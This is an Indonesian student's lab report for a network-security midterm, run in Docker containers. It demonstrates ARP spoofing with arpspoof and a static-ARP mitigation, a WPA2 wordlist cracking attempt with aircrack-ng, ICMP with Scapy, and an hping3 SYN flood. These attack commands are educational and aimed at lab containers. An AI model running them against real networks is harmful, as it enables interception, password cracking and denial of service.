# Laporan UTS Network Security — Kasus 5

**NIM:** 24552011357. Kasus 5 
**Lingkungan:** Kali Linux (VirtualBox), Docker  
**Perhitungan kasus:** digit NIM dijumlah → 2+4+5+5+2+0+1+1+3+5+7 = 35, lalu 35 mod 10 = 5. Jadi Kasus 5. <br>
**Workspace:** `/root/UTS-Network-Security/` 

---

# Tugas 1 — Docker dan Volume

### Tujuan
Menguji persistensi data menggunakan Docker Volume dan mengakses layanan Nginx dari container attacker melalui Docker Compose.

### Perintah
```bash
docker volume create vol-k5
docker run --name w-k5 -v vol-k5:/data alpine sh -c 'echo 24552011357 > /data/laporan-k5.txt'
docker rm w-k5
docker run --rm -v vol-k5:/data alpine cat /data/laporan-k5.txt
docker compose -p k5 -f b/b1-compose/docker-compose.yml up -d
docker compose -p k5 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
docker compose -p k5 -f b/b1-compose/docker-compose.yml down -v
```

### Hasil terminal
```text
vol-k5
w-k5
24552011357
```



Container Compose berhasil dijalankan (`k5-attacker-1` dan `k5-target-1`). Perintah `wget` dari attacker menampilkan halaman default Nginx dengan judul **Welcome to nginx!**. Setelah pengujian, Compose dihentikan dan volume Compose dibersihkan menggunakan `down -v`.

### Kesimpulan
Data `laporan-k5.txt` tetap tersedia setelah container penulis dihapus karena data disimpan pada Docker Volume `vol-k5`. Container attacker juga berhasil mengakses halaman Nginx pada container target.

### Bukti
1. Isi file `laporan-k5.txt` dari container baru.
2. Halaman Nginx yang diakses dari container attacker.

---

# Tugas 2 — Cryptography

### Tujuan
Melakukan enkripsi dan dekripsi file menggunakan AES-256-CBC dengan PBKDF2, memeriksa integritas hasil melalui SHA-256, serta membuat sertifikat X.509.

### Perintah
```bash
docker run --rm -v "$PWD":/work uts-openssl sh -c 'echo isi laporan k5 > laporan-k5.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k5.txt -out laporan-k5.enc -pass pass:kunci-k5-2026 && sha256sum laporan-k5.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k5.enc -out hasil-k5.txt -pass pass:kunci-k5-2026 && sha256sum hasil-k5.txt'

docker run --rm -v "$PWD":/work uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k5.pem -out cert-k5.pem -days 30 -subj /CN=k5.uts.local && openssl x509 -in cert-k5.pem -noout -subject -issuer -dates'
```

### Hasil terminal

Hash file asli dan hasil dekripsi sama:

```text
22e90e5baa6048f9871927be4fa8af9d141b10a1071cf2b975272db8343f79b5  laporan-k5.txt
22e90e5baa6048f9871927be4fa8af9d141b10a1071cf2b975272db8343f79b5  hasil-k5.txt
```

Informasi sertifikat:

```text
subject=CN=k5.uts.local
issuer=CN=k5.uts.local
notBefore=Nov 25 07:16:59 2026 GMT
notAfter=Dec 25 07:16:59 2026 GMT
```



### Kesimpulan
File berhasil dienkripsi dan didekripsi. Kesamaan nilai SHA-256 menunjukkan isi file hasil dekripsi sama dengan file asli. Sertifikat self-signed RSA 2048 untuk `k5.uts.local` berhasil dibuat dengan masa berlaku 30 hari.

### Bukti
1. Output SHA-256 file asli dan file hasil dekripsi.
2. Output Subject, Issuer, `notBefore`, dan `notAfter` sertifikat.

---

# Tugas 3 — ARP Spoofing dan Mitigasi Static ARP

### Tujuan
Memperagakan ARP spoofing dari container attacker terhadap container korban, kemudian mencegah perubahan pemetaan alamat MAC menggunakan static ARP.

### Pembuatan network dan container

```bash
docker rm -f korban-k5 gateway-k5 penyerang-k5 2>/dev/null
docker network rm lab-arp-k5 2>/dev/null

docker network create lab-arp-k5

docker run -d --name korban-k5 --network lab-arp-k5 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name gateway-k5 --network lab-arp-k5 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name penyerang-k5 --network lab-arp-k5 --cap-add NET_ADMIN uts-kali-tools
```

### Pengambilan alamat IP dan MAC

```bash
KORBAN=$(docker inspect -f '{{(index .NetworkSettings.Networks "lab-arp-k5").IPAddress}}' korban-k5)
GATEWAY=$(docker inspect -f '{{(index .NetworkSettings.Networks "lab-arp-k5").IPAddress}}' gateway-k5)
MAC_GATEWAY=$(docker exec gateway-k5 cat /sys/class/net/eth0/address)

echo "IP Korban : $KORBAN"
echo "IP Gateway: $GATEWAY"
echo "MAC Gateway: $MAC_GATEWAY"
```

Output terminal:

```text
IP Korban : 172.19.0.2
IP Gateway: 172.19.0.3
MAC Gateway: 1e:46:f8:f3:2f:75
```


<br>Info: di langkah selanjutnya, mac penyerang berbeda, dikarenakan instance docker yang hang, jadi mengharuskan restart service dan alamat mac sebelumnya hilang.


### Kendala dan penanganan

1. Saat container dibuat ulang, alamat MAC gateway berubah. Karena itu, MAC gateway harus diambil ulang dari container yang sedang aktif; MAC dari percobaan sebelumnya tidak digunakan.
2. Perintah `arp` belum tersedia di container korban. Paket `net-tools` dipasang pada container korban, sedangkan `dsniff` dipasang pada container attacker untuk menyediakan `arpspoof`.
3. Setelah Docker direstart, container dan konfigurasi jaringan perlu dijalankan kembali. Pembuatan ulang container menghasilkan MAC baru, sehingga nilai MAC gateway dihitung ulang.
4. Pada percobaan awal, entri gateway belum muncul pada tabel ARP korban. Setelah trafik ICMP diarahkan ke IP gateway ketika spoofing aktif, perubahan pemetaan MAC berhasil terlihat.
5. Ping menghasilkan pesan ICMP Redirect dan dua balasan dari tiga paket. Pesan redirect tersebut tidak mengubah fakta bahwa tabel ARP korban menunjukkan IP gateway menggunakan MAC attacker.

### Instalasi tools

Perintah yang dijalankan:

```bash
docker exec korban-k5 sh -c 'apt-get update -qq && apt-get install -y -qq net-tools'
docker exec penyerang-k5 sh -c 'apt-get update -qq && apt-get install -y -qq dsniff'
docker exec korban-k5 sh -c 'apt-get update -qq && apt-get install -y -qq iputils-ping'
```



### Kondisi awal tabel ARP korban

```text
? (172.19.0.1) at 0a:f7:d5:38:2b:95 [ether] on eth0
```



### Proses ARP spoofing

Perintah attacker:

```bash
docker exec penyerang-k5 arpspoof -i eth0 -t 172.19.0.2 172.19.0.3
```

Output terminal:

```text
a2:1f:50:76:a8:70 ba:4a:5a:db:6e:c0 0806 42: arp reply 172.19.0.3 is-at a2:1f:50:76:a8:70
a2:1f:50:76:a8:70 ba:4a:5a:db:6e:c0 0806 42: arp reply 172.19.0.3 is-at a2:1f:50:76:a8:70
a2:1f:50:76:a8:70 ba:4a:5a:db:6e:c0 0806 42: arp reply 172.19.0.3 is-at a2:1f:50:76:a8:70
a2:1f:50:76:a8:70 ba:4a:5a:db:6e:c0 0806 42: arp reply 172.19.0.3 is-at a2:1f:50:76:a8:70
a2:1f:50:76:a8:70 ba:4a:5a:db:6e:c0 0806 42: arp reply 172.19.0.3 is-at a2:1f:50:76:a8:70
^C
```



Pengecekan tabel ARP korban:

```bash
docker exec korban-k5 arp -a
```

Output terminal:

```text
gateway-k5.lab-arp-k5 (172.19.0.3) at a2:1f:50:76:a8:70 [ether] on eth0
? (172.19.0.1) at 0a:f7:d5:38:2b:95 [ether] on eth0
penyerang-k5.lab-arp-k5 (172.19.0.4) at a2:1f:50:76:a8:70 [ether] on eth0
```



Hasil tersebut menunjukkan IP gateway `172.19.0.3` dipetakan ke MAC attacker `a2:1f:50:76:a8:70`.

### Uji konektivitas saat spoofing aktif

Perintah:

```bash
docker exec korban-k5 ping -c 3 172.19.0.3
docker exec korban-k5 arp -a
```

Output terminal:

```text
PING 172.19.0.3 (172.19.0.3) 56(84) bytes of data.
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from 172.19.0.3: icmp_seq=2 ttl=64 time=0.045 ms
From 172.19.0.4 icmp_seq=3 Redirect Host(New nexthop: 172.19.0.3)

--- 172.19.0.3 ping statistics ---
3 packets transmitted, 2 received, +1 errors, 33.3333% packet loss, time 2077ms
rtt min/avg/max/mdev = 0.039/0.042/0.045/0.003 ms
gateway-k5.lab-arp-k5 (172.19.0.3) at a2:1f:50:76:a8:70 [ether] on eth0
? (172.19.0.1) at 0a:f7:d5:38:2b:95 [ether] on eth0
penyerang-k5.lab-arp-k5 (172.19.0.4) at a2:1f:50:76:a8:70 [ether] on eth0
```



### Mitigasi menggunakan static ARP

Perintah:

```bash
docker exec korban-k5 arp -s 172.19.0.3 1e:46:f8:f3:2f:75
docker exec korban-k5 arp -a
```

Output terminal:

```text
gateway-k5.lab-arp-k5 (172.19.0.3) at 1e:46:f8:f3:2f:75 [ether] PERM on eth0
? (172.19.0.1) at 0a:f7:d5:38:2b:95 [ether] on eth0
penyerang-k5.lab-arp-k5 (172.19.0.4) at a2:1f:50:76:a8:70 [ether] on eth0
```



### Kesimpulan
ARP spoofing berhasil ditunjukkan karena tabel ARP korban memetakan IP gateway `172.19.0.3` ke MAC attacker `a2:1f:50:76:a8:70`. Mitigasi static ARP berhasil mengembalikan pemetaan IP gateway ke MAC asli `1e:46:f8:f3:2f:75` dengan status `PERM`.

### Bukti
1. Output `arpspoof` dari container attacker.
2. Tabel ARP korban saat IP gateway menggunakan MAC attacker.
3. Tabel ARP korban setelah mitigasi, dengan MAC gateway asli dan status `PERM`.

---

# Tugas 4 — WPA2 Handshake Analysis

### Tujuan
Melakukan analisis file WPA2 handshake menggunakan Aircrack-ng dan wordlist untuk menguji kemungkinan menemukan password jaringan.

### 1. Percobaan awal

Perintah:

```bash
docker run --rm -v "$PWD":/work uts-kali-tools aircrack-ng -w /work/repository/UTS-Network-Security/01-sumber-lab/samples/wordlist-k5.txt /work/repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap
```

Output terminal:

```text
Reading packets, please wait...
This file is not a regular 802.11 (wireless) capture.
Opening /work/repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap
Read 0 packets.

No networks found, exiting.

Quitting aircrack-ng...
```



### 2. Pemeriksaan format file

Perintah:

```bash
file repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap && ls -lh repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap
```

Output terminal:

```text
repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 65535)
Permissions Links Size User Date Modified Git Name
.rw-r--r--      1 8.2k root 25 Nov 15:46   --  repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap
```



### 3. Pemeriksaan isi paket

Perintah:

```bash
tcpdump -nn -r repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap -c 10
```

Output terminal:

```text
reading from file repository/UTS-Network-Security/01-sumber-lab/samples/handshake-k5.cap, link-type EN10MB (Ethernet), snapshot length 65535
tcpdump: pcap_loop: invalid packet capture length 1236031636, bigger than snaplen of 65535
```



### Analisis dan kendala

1. Pada percobaan awal, file tidak ditemukan karena perintah dijalankan dari direktori yang tidak memuat file sampel secara langsung.
2. Kedua file ditemukan di direktori `01-sumber-lab/samples/`.
3. Setelah menggunakan lokasi file yang benar, Aircrack-ng menyatakan bahwa file bukan capture wireless 802.11.
4. Pemeriksaan `file` menunjukkan bahwa capture menggunakan link type Ethernet.
5. Pemeriksaan menggunakan `tcpdump` juga menghasilkan error `invalid packet capture length`.

### Kesimpulan

Analisis WPA2 handshake belum berhasil dilakukan karena file `handshake-k5.cap` yang disediakan tidak terbaca sebagai capture wireless 802.11 yang valid. Aircrack-ng tidak menemukan jaringan maupun handshake yang dapat dianalisis. Dengan demikian, password WPA2 belum dapat diperoleh.

File sampel tidak dimodifikasi atau diganti selama pengujian.

### Bukti

1. Output percobaan Aircrack-ng pertama.
2. Lokasi file sampel yang ditemukan.
3. Output Aircrack-ng setelah menggunakan lokasi file yang benar.
4. Informasi format file dari perintah `file`.
5. Error pemeriksaan capture menggunakan `tcpdump`.

---

# Tugas 5 — Pengiriman ICMP dengan Scapy

### Tujuan

Mengirim paket ICMP Echo Request ke container korban dan mengamati nilai TTL serta tipe ICMP pada balasan.

### Perintah

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker run --rm --network lab-arp-k5 -v "$PWD/01-sumber-lab/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py 172.19.0.2
Mengirim: IP / ICMP 172.19.0.5 > 172.19.0.2 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```



### Kesimpulan

- Paket ICMP Echo Request dikirim dari `172.19.0.5` menuju korban `172.19.0.2`.
- **TTL balasan: 64** — nilai Time To Live pada paket balasan yang diterima.
- **Tipe ICMP balasan: 0** — ICMP Type 0 adalah Echo Reply. Artinya, target membalas permintaan ICMP.

Smurf Attack merupakan serangan DoS yang menyalahgunakan ICMP Echo Request. Penyerang mengirim Echo Request ke alamat broadcast dengan alamat IP korban dipalsukan sebagai alamat sumber. Host-host yang menerima permintaan tersebut dapat mengirimkan Echo Reply kepada korban secara bersamaan sehingga korban menerima lonjakan trafik.

### Bukti
Screenshot terminal yang menampilkan hasil pengiriman ICMP, TTL balasan `64`, dan tipe ICMP balasan `0` digunakan sebagai bukti Tugas 5.

---

# Tugas 6 — SYN Flood

### Tujuan

Menjalankan simulasi SYN Flood menggunakan `hping3`, mengamati jumlah koneksi berstatus `SYN_RECV`, dan menangkap paket TCP menggunakan `tcpdump`.

### Perintah

### 1. Menjalankan Container

Menjalankan Compose dengan path yang benar:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml up -d
[+] Running 3/3
 ✔ Network k5_lab           Created                                                 0.1s
 ✔ Container k5-target-1    Started                                                 0.5s
 ✔ Container k5-attacker-1  Started                                                 0.5s

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```



### 2. Memeriksa SYN_RECV Sebelum Serangan

```text
root@pwned-exphr:~/UTS-Network-Security/documents# docker compose -p k5 -f /root/UTS-Network-Security/repository/UTS-Network-Security/01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV
0

root@pwned-exphr:~/UTS-Network-Security/documents#
```



### 3. Menjalankan SYN Flood

Menjalankan serangan menggunakan hping3 selama 15 detik:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f /root/UTS-Network-Security/repository/UTS-Network-Security/01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```



### 4. Memeriksa SYN_RECV Setelah Serangan

```text
root@pwned-exphr:~/UTS-Network-Security/documents# docker compose -p k5 -f /root/UTS-Network-Security/repository/UTS-Network-Security/01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV
0

root@pwned-exphr:~/UTS-Network-Security/documents#
```


### 5. Mengamati Paket TCP Menggunakan tcpdump

```text
root@pwned-exphr:~/UTS-Network-Security/documents# docker compose -p k5 -f /root/UTS-Network-Security/repository/UTS-Network-Security/01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 10 tcpdump -i eth0 -nn tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 10'
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
08:03:49.276947 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [S], seq 1980442171, win 64240, options [mss 1460,sackOK,TS val 2458096006 ecr 0,nop,wscale 10], length 0
08:03:49.276966 IP 172.20.0.3.80 > 172.20.0.2.53668: Flags [S.], seq 2826358496, ack 1980442172, win 65160, options [mss 1460,sackOK,TS val 77916969 ecr 2458096006,nop,wscale 10], length 0
08:03:49.276973 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [.], ack 1, win 63, options [nop,nop,TS val 2458096006 ecr 77916969], length 0
08:03:49.277073 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [P.], seq 1:71, ack 1, win 63, options [nop,nop,TS val 2458096006 ecr 77916969], length 70: HTTP: GET / HTTP/1.1
08:03:49.277083 IP 172.20.0.3.80 > 172.20.0.2.53668: Flags [.], ack 71, win 64, options [nop,nop,TS val 77916969 ecr 2458096006], length 0
08:03:49.277202 IP 172.20.0.3.80 > 172.20.0.2.53668: Flags [P.], seq 1:240, ack 71, win 64, options [nop,nop,TS val 77916969 ecr 2458096006], length 239: HTTP: HTTP/1.1 200 OK
08:03:49.277452 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [.], ack 240, win 63, options [nop,nop,TS val 2458096006 ecr 77916969], length 0
08:03:49.277553 IP 172.20.0.3.80 > 172.20.0.2.53668: Flags [P.], seq 240:1136, ack 71, win 64, options [nop,nop,TS val 77916970 ecr 2458096006], length 896: HTTP
08:03:49.277604 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [.], ack 1136, win 63, options [nop,nop,TS val 2458096007 ecr 77916970], length 0
08:03:49.277707 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [F.], seq 71, ack 1136, win 63, options [nop,nop,TS val 2458096007 ecr 77916970], length 0
08:03:49.277832 IP 172.20.0.3.80 > 172.20.0.2.53668: Flags [F.], seq 1136, ack 72, win 64, options [nop,nop,TS val 77916970 ecr 2458096007], length 0
08:03:49.277838 IP 172.20.0.2.53668 > 172.20.0.3.80: Flags [.], ack 1137, win 63, options [nop,nop,TS val 2458096007 ecr 77916970], length 0

12 packets captured
12 packets received by filter
0 packets dropped by kernel

root@pwned-exphr:~/UTS-Network-Security/documents#
```

